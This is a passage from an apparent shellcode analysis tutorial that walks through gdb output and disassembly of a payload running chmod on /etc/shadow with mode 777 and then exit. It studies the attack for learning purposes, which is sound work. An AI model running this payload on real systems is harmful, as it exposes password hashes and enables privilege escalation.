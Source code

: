 ```shell
gs             0x33	51
```

Now for the `EBX` we can examine the next 15 characters after the memory of `EBX`.

```shell
(gdb) x/15c 0x804a04a
0x804a04a <buf+10>:	47 '/'	101 'e'	116 't'	99 'c'	47 '/'	115 's'	104 'h'	97 'a'
0x804a052 <buf+18>:	100 'd'	111 'o'	119 'w'	0 '\000'	91 '['	104 'h'	-1 '\377'
```

We can clearly see that the string "/etc/shadow" is contained there and is also null terminated. So the target file of the `chmod` syscall is the `/etc/shadow` as expected. Now we are done with `pathname`.

Next, for the `ECX` we see that it has the hex value `0x1ff`, which is `777` in octal, again as expected.

```shell
ecx            0x1ff	511
```

Now the `chmod` syscall is ready for execution but there is another `int 0x80` instruction, meaning there is another syscall to be executed.

The value `1` is pushed to the stack and then is popped and saved to `EAX` register. According to the header file: `/usr/include/i386-linux-gnu/asm/unistd_32.h` again the syscall with number `1` is for `exit` (`#define __NR_exit 1`).


```shell
   0x0804a05f <+31>:	push   0x1
   0x0804a061 <+33>:	pop    eax
```

The prototype of the `exit` function from its manual page (`man exit`) reveals that only one argument is needed (`status`) and it has no importance for us since this value is just returned to the parent. So, it doesn't have to be set. 

```shell
       void exit(int status);
```

Finally, we can set a breakpoint at the final `int 0x80` isntruction at `0x0804a062`, continue through the code and disassemble. What matters is the value of the `EAX` register, which is `1` as expected for the `exit` syscall.

```shell
(gdb) break *0x0804a062
Breakpoint 3 at 0x804a062
(gdb) c
Continuing.

Breakpoint 3, 0x0804a062 in buf ()
(gdb) disassemble 
Dump of assembler code for function buf:
   0x0804a040 <+0>:	cdq    
   0x0804a041 <+1>:	push   0xf
   0x0804a043 <+3>:	pop    eax
   0x0804a044 <+4>:	push   edx
   0x0804a045 <+5>:	call   0x804a056 <buf+22>
   0x0804a04a <+10>:	das    
   0x0804a04b <+11>:	gs je  0x804a0b1
   0x0804a04e <+14>:	das    
   0x0804a04f <+15>:	jae    0x804a0b9
   0x0804a051 <+17>:	popa   
   0x0804a052 <+18>:	outs   dx,DWORD PTR fs:[esi]
   0x0804a054 <+20>:	ja     0x804a056 <buf+22>
   0x0804a056 <+22>:	pop    ebx
   0x0804a057 <+23>:	push   0x1ff
   0x0804a05c <+28>:	pop    ecx
```